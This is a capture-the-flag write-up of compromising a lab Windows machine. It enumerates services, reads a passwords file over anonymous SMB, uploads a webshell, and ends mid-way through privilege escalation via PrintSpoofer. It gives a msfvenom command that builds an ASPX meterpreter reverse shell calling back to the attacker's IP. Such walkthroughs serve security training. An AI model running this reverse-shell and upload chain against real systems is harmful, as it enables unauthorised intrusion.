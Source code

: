 ## Overview 
This is a windows machine. You wil learn basic metasploit and basic pentest windows. 

## Write up 

## Enumeration 
Run `nmap` to scan the services. This server run web with 2 port (80, 49663) and smb share (445) 
  
![image](https://user-images.githubusercontent.com/22276823/147270203-dd3ed196-05b8-418e-87a5-b6125344c755.png) 
 
Scan smb vuln 
 
![image](https://user-images.githubusercontent.com/22276823/147270599-0585d73d-b8e5-4598-963d-5d2ea2a6df67.png) 

Connect to smb share with anonymous account 
 
![image](https://user-images.githubusercontent.com/22276823/147270831-ccae3482-8ecf-450a-aace-07b0a3d17c7e.png) 
 
This server share folder `nt4wrksv`. Connect this and get `passwords.txt` file 

![image](https://user-images.githubusercontent.com/22276823/147271108-965e4cf6-13d5-4c4d-9786-74710e8e315f.png) 

Check this file and i got 2 user, pass 

![image](https://user-images.githubusercontent.com/22276823/147271398-dc1a60bf-5204-4dd4-bcc2-6b2925fca042.png) 

Check permission on server. I known i can upload with anonymous account 

![image](https://user-images.githubusercontent.com/22276823/147271520-b2c2a934-ab09-490d-9be1-25a7a1c72d6f.png) 

## Exploit 

Because this server run on windows. I have create the reverse shell aspx. But it's seem like this server just print source code without run it. 
  
![image](https://user-images.githubusercontent.com/22276823/147272100-2d1ff816-a376-488a-a17c-3831a0375f0c.png) 

Let's try with webshell and get user flag

![image](https://user-images.githubusercontent.com/22276823/147272435-6507deb5-a4dd-41e2-83c6-cdcd4adb165f.png) 
 
To get reverse shell, i used metasploit to create reverse shell 

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.9.3.188 lport=4444 -f aspx -o shell.aspx 
``` 
 
Upload to server and get reverse shell 

![image](https://user-images.githubusercontent.com/22276823/147272992-34b30903-44ae-4e13-8848-f593952350d7.png)  
 
![image](https://user-images.githubusercontent.com/22276823/147273229-1da03fdc-dccc-42fc-8e41-e67de694b6ed.png) 
 
Check privileges 
 
![image](https://user-images.githubusercontent.com/22276823/147273332-b533de06-f26f-436d-9641-93987775ffb6.png) 
 
After searching google. I used [Juicy Potato](https://github.com/ohpe/juicy-potato) but it doesn't work. Continue research, I found another way. This way exploit (PrintSpooler)[https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/]
service





